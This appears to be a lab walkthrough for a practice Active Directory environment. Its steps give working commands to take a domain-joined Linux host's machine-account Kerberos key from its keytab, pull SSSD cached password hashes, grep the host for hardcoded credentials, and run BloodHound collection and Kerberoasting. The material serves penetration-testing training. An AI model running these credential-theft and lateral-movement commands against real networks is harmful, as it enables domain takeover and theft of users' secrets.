

# 🐧 01 — Linux foothold (mandalore) → first domain credential

> [!abstract] Summary
> **Start:** SSH to `mandalore` (10.10.0.15) as `labadmin` (key `vms/linux01_id`).
> **Goal:** turn a domain-joined Linux host into a usable AD credential.
> **Why it works:** a domain-joined Linux box stores Kerberos keys and may cache domain user secrets — exactly like a Windows member server.



## Step 1 — Land and orient

```bash
ssh -i vms/linux01_id labadmin@10.10.0.15
id; klist; realm list; cat /etc/krb5.conf
```
Tells you the realm (`EMPIRE.LOCAL`) and the KDC (`coruscant`).

## Step 2 — Steal the machine account key

`/etc/krb5.keytab` holds the **machine account** (`MANDALORE$`) key. That account is a valid domain principal — enough to read all of LDAP and Kerberoast.

```bash
sudo klist -k /etc/krb5.keytab            # confirm MANDALORE$ keys
sudo kinit -k 'MANDALORE$@EMPIRE.LOCAL'   # TGT as the machine
klist
export KRB5CCNAME=$(ls -t /tmp/krb5cc_* | head -1)
```

> [!success] You now have authenticated AD access as `MANDALORE$`.

## Step 3 — Loot cached domain user secrets (SSSD)

If a domain *user* ever logged in here, SSSD cached a hash:
```bash
sudo ls -l /var/lib/sss/db/ /var/lib/sss/secrets/
sudo strings /var/lib/sss/db/cache_*.ldb | grep -iE 'cachedPassword|userPassword'
```

## Step 4 — Hunt hardcoded creds (the lab plants these)

```bash
sudo cat /etc/sudoers /etc/sudoers.d/* 2>/dev/null
grep -rniE 'password|pass=|pwd|secret|token' \
  /opt /home /etc/cron* /usr/local/bin /var/www 2>/dev/null
sudo find / -name '*.keytab' 2>/dev/null
```

## Step 5 — Pivot off the machine account

```bash
# BloodHound as the machine account
uvx --from bloodhound-ce bloodhound-ce-python -k -no-pass \
  -d empire.local -dc coruscant.empire.local -ns 10.10.0.10 -c All --zip
# Kerberoast every SPN
nxc ldap 10.10.0.10 -k --kerberoasting kroast.txt
```

> [!check] Outcome
> You hold `MANDALORE$` or a cached/hardcoded user credential.
> **Next:** [[02-kerberoast-to-da]] or [[03-asrep-roast]].
